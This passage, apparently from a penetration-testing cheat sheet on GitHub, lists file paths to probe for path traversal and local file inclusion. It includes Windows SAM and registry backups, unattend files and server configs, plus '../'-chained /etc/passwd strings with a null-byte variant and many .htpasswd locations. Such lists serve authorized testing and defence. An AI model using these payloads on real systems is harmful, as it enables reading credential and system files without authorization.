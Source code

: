         C:/Windows/repair/software
        C:/Windows/repair/security
        C:/WINDOWS/System32/drivers/etc/hosts
        C:/Windows/win.ini
        C:/WINNT/php.ini
        C:/WINNT/win.ini
        C:/xampp/apache/bin/php.ini
        C:/xampp/apache/logs/access.log
        C:/xampp/apache/logs/error.log
        C:/Windows/Panther/Unattend/Unattended.xml
        C:/Windows/Panther/Unattended.xml
        C:/Windows/debug/NetSetup.log
        C:/Windows/system32/config/AppEvent.Evt
        C:/Windows/system32/config/SecEvent.Evt
        C:/Windows/system32/config/default.sav
        C:/Windows/system32/config/security.sav
        C:/Windows/system32/config/software.sav
        C:/Windows/system32/config/system.sav
        C:/Windows/system32/config/regback/default
        C:/Windows/system32/config/regback/sam
        C:/Windows/system32/config/regback/security
        C:/Windows/system32/config/regback/system
        C:/Windows/system32/config/regback/software
        C:/Program Files/MySQL/MySQL Server 5.1/my.ini
        C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
        C:/Windows/System32/inetsrv/config/applicationHost.config
        C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
        d:\AppServ\MySQL
        c:\AppServ\MySQL
        c:WINDOWS/system32/
        /C:\Program Files\
        /D:\Program Files\
        /C:/inetpub/ftproot/
        ```
* Linux
    * Files
        ```
        /etc/master.passwd
        /master.passwd
        etc/passwd
        /../../../../../../../../../../../../../../../../../../../../../../etc/passwd
        /../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00
        .htpasswd
        passwd
        passwd.dat
        pass.dat
        .htpasswd
        /.htpasswd
        ../.htpasswd
        .passwd
        /.passwd
        ../.passwd
        .pass
        ../.pass
        members/.htpasswd
        member/.htpasswd
        user/.htpasswd
        users/.htpasswd
        root/.htpasswd
        db.php
        data.php
        database.asp
        database.js
        database.php